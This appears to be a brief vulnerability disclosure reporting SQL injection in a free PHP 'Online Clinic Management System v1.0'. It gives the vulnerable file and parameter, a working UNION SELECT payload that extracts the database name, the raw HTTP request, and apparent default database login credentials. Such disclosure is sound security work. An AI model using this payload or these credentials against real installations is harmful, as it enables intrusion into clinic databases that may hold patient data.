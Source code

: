 # Online Clinic Management System v1.0 has SQL injection

nick-name: jacky.liu

vendors: https://itsourcecode.com/free-projects/php-project/online-clinic-management-system-php-projects-source-code/

dbname= id8650063_suarezclinicdb

username&password = admerc@yahoo.com/itota

Vulnerability File: /success/editp.php

Vulnerability location: /success/editp.php?action=edit & id=, id

[+] Payload: /success/editp.php?action=edit & id=201801 union select 1,database(),3,4,5,6--+

```sql
GET /success/editp.php?action=edit%20&%20id=201801%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=k7u4fodbeos6ie4oc0oa29u5qg
Connection: close
```

![image](https://github.com/user-attachments/assets/6a251f9b-75ec-40b5-8f02-e632686f1e61)
